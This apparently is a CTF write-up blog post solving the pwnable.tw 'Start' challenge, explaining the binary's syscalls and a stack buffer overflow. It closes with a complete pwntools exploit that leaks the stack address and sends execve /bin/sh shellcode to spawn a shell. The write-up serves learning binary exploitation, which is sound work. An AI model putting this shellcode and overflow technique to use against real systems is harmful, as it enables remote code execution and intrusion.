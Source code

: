 ```yaml
---
layout: post
title: 'Pwnable.tw: Start'
published: true
---
```

First, we check file info: 

![Capture.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/Capture.PNG)


It's a .elf file. Now we should open disassembler like IDA Pro.
![assembly.PNG]({{site.baseurl}}/img/ctf/pwnable.tw/assembly.PNG)

We have two funcion: `_start` and `_exit`.
As you can see, it firsts push esp, and push address `_exit` fuction, then push 5 times hex numbers. If you look closer by convert it to string, that's the string "Let's start the CTF:" at the beginning of the program. 

_**`int 80` is a system call in Linux, you can read it more at [here](http://asm.sourceforge.net/syscall.html).
It depends on the number before to make a move. E.g: the number before first instruction `int 80` at `0804808F` is 4, it means [sys_write](http://asm.sourceforge.net/syscall.html#4); the number before the second is 3, it is [sys_read](http://asm.sourceforge.net/syscall.html#3).**_

The program lets you type 60 bytes, but it only accepts 20 bytes. Therefore, you can see maybe has buffer overflow here.


Source code for pwn:
{% highlight python linenos %}
from pwn import *

  conn = remote("chall.pwnable.tw", 10000)
  conn.recv(20)

  shellcode = "\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"

  payload = 'A'* 20 + p32(0x08048087)
  conn.send(payload)
  esp_add = conn.recv(20)

  esp_add = u32(esp_add[0:4])

  payload = 'A' * 20 + p32(esp_add + 20) + shellcode
  conn.send(payload)

  conn.interactive()
  conn.close()
{% endhighlight %}
